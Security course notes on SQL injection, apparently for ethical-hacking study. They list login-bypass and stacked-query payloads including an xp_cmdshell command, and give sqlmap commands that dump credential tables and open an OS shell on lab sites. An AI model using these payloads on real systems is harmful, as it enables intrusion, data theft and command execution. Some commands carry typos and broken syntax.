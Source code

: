 # 15 - SQL Injection

#### <mark style="color:yellow;">**Module 15 - SQL Injection**</mark>

<details>

<summary>What is SQL Injection?</summary>

**SQL Injection** is a type of security vulnerability that occurs when an attacker is able to manipulate an SQL query in a way that it executes unintended commands on a database. This can lead to unauthorized access, data disclosure, data manipulation, or even database destruction.

Here's a basic textual explanation:

**1. SQL Query:** In web applications, databases are often used to store and retrieve data. The application sends SQL queries to the database to interact with the data.

**2. User Input:** User input is data that a user provides to a web application, like a search query in a text box or a login form.

**3. Vulnerability:** In a vulnerable application, the SQL query is constructed by simply including the user's input without proper validation or sanitization.

**4. Attack:** An attacker can enter malicious input, which may include SQL code, into the user input fields. If the application doesn't properly validate and sanitize this input, the attacker's SQL code becomes part of the query sent to the database.

**5. Exploitation:** The attacker can manipulate the SQL query to perform malicious actions, such as extracting sensitive data, modifying or deleting data, or even taking control of the database.



</details>

<div align="left">

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p><a href="https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/">https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/</a></p></figcaption></figure>

</div>

<details>

<summary>Type of SQL Injection</summary>

### Types of SQL Injection

**Union-based SQL**i: This technique involves using the UNION SQL operator to combine the results of the original query with the results of an attacker-controlled query.

**Error-based SQL**i: This technique involves forcing the database to generate an error, which can reveal information about the database structure.

**Blind SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. The attacker has to send a payload, and based on the application's response, he can infer if the payload was executed successfully or not.

**Time-based Blind SQLi**: This is a type of blind SQLi where the attacker can infer if the payload was executed successfully or not based on the time the server takes to respond.

**Out-of-Band SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. Instead, the results are sent to an external server controlled by the attacker.

**Second Order SQLi**: In this type of SQLi, the payload is not directly injected into the SQL query, but it is stored by the application and used in a later SQL query.

**Stored Procedure Attacks**: This involves calling stored procedures from the SQL injection point.

**Function Call Payloads**: This involves calling database functions from the SQL injection point.

**Boolean-based SQLi**: This involves sending a SQL query that will return a different result depending on whether the condition in the query is true or false.

**Content-based SQLi**: This involves sending a SQL query that will return a different result depending on the content of the HTTP response.

</details>

## Manual Injection

* `‘ or 1=1 --`  for login bypass
* admin' --
* admin' #
* admin'/\*
* ' or 1=1--
* ' or 1=1#
* ' or 1=1/\*
* ') or '1'='1--
* ') or ('1'='1—
* `‘insert into login values ('john','apple123'); --` create own user in the database
* `‘create database mydatabase; --`  create database with name of mydatabase
* `‘exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --` execute ping on moviescope

## SQLMap

* Open the vulnerable website
* Copy the cookie from the inspect element
* Open the terminal and run SQLMap

### Basic Commands

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --data="id=1&Submit=Submit"--dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using SQLMap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST

Then, if we've SQL username and psw, we can use them to login and query db.

```bash
mysql -U qdpmadmin -h 192.168.1.8 -P passwod
show databases;
use qdpm;
show tables' select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
```

## Other Tools

* **Havij**: Havij is an automated SQL Injection tool that helps penetration testers to find and exploit SQL Injection vulnerabilities.
* **jSQL Injection**: jSQL Injection is a lightweight application used to find database information from a distant server.
* **BBQSQL**: BBQSQL is a blind SQL injection framework written in Python.
* **NoSQLMap**: NoSQLMap is an open-source Python tool designed to audit for as well as automate injection attacks and exploit default configuration weaknesses in NoSQL databases.
* **SQLNinja**: SQLNinja is a tool to exploit SQL Injection vulnerabilities on a web application that uses Microsoft SQL Server as its back-end.
* **SQLiX**: SQLiX is a SQL Injection scanner written in Perl.
* **SQLSentinel**: SQLSentinel is an application-level firewall for MySQL that prevents SQL Injection attacks.
* **MyBatis**: MyBatis is a Java persistence framework that includes a built-in SQL Injection scanner.
* **Blisqy**: Blisqy is a tool to aid Web Security researchers to find Time-based Blind SQL injection on HTTP Headers and also exploitation of the same vulnerability.

## Lab - Example of use

### **SQLMap**

site:[http://testphp.vulnweb.com/](http://testphp.vulnweb.com/) php?= (for finding vulnerable site)

(for cookies- console->document.cookie)

&#x20;

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  --dbs   (databases)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart –tables   (tables)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users --columns   (columns)

(dump whole table)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users  --dump  &#x20;

&#x20;                                                           OR                                                                                   &#x20;

(dump individual  column data)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users -C uname  --dump &#x20;

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users -C pass  --dump

## Additional Resources

{% embed url="https://hackertarget.com/sqlmap-tutorial/" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}

{% embed url="https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/" %}

{% embed url="https://medium.com/@rafaelrenovaci/dvwa-solution-sql-injection-blind-sqlmap-cd1461ad336e" %}

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

{% embed url="https://gracefulsecurity.com/sql-injection-filter-evasion-with-sqlmap/" %}

{% embed url="https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF" %}

{% embed url="https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/" %}

[https://www.youtube.com/watch?v=IR1JsaSQLMc](https://www.youtube.com/watch?v=IR1JsaSQLMc)
